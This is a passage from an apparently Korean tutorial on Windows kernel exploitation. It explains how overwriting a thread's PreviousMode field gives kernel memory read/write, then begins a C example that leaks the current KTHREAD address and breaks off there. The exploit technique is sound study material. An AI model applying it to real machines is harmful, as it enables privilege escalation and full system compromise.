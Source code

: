 ![image.png](ko/image%204.png)

## EXP 1 - PreviousMode

첫 번째는 PreviousMode 변조를 이용한 방법입니다.

[PreviousMode](https://learn.microsoft.com/ko-kr/windows-hardware/drivers/kernel/previousmode)는 KTHREAD 구조체 필드로, 유저모드 애플리케이션이 **Nt** 또는 **Zw** 버전의 네이티브 시스템 서비스 루틴을 호출한 경우 스레드의 매개변수가 유저모드 프로세스로부터 왔음을 알리는 플래그 값입니다. PreviousMode 값이 1이면 현재 스레드 객체가 유저모드로부터 호출되어 생성되었고, 0이면 커널모드로부터 생성되었음을 알 수 있죠. 이는 유저모드로부터 온 객체의 커널 접근을 제한하는 역할을 합니다. 

유저모드 프로세스의 PrevousMode를 0으로 변조할 수 있으면 `NtWriteVirtualMemory`나 `ReadProcessMemory` 함수를 호출해 커널 메모리 RW 프리미티브를 얻을 수 있는데요, 이해를 돕기 위한 간단한 예제와 디버깅을 통해 알아볼게요!

```c
#include <stdio.h>
#include "defines.h"

#define STATUS_INFO_LENGTH_MISMATCH 0xc0000004

_NtQuerySystemInformation pNtQuerySystemInformation;
_NtFsControlFile pNtFsControlFile;
_NtWriteVirtualMemory pNtWriteVirtualMemory;
_NtReadVirtualMemory pNtReadVIrtualMemory;

void GetNtFunction() {...}
PVOID GetObj(PULONGLONG objptr, ULONG pid, HANDLE handle){...}

int main() {
	PVOID KTHREAD = NULL;
	PVOID SYSTEM_EPROCESS = NULL;
	PVOID EPROCESS = NULL;

	ULONG dwbytes = 0;
	GetNtFunction();

	DWORD pid = GetCurrentProcessId();
	
	// [1]
	HANDLE hThread = OpenThread(THREAD_QUERY_INFORMATION, TRUE, GetCurrentThreadId());
	GetObj(&KTHREAD, pid, hThread);
	printf("[+] Current KTHREAD: %p\n", KTHREAD);

```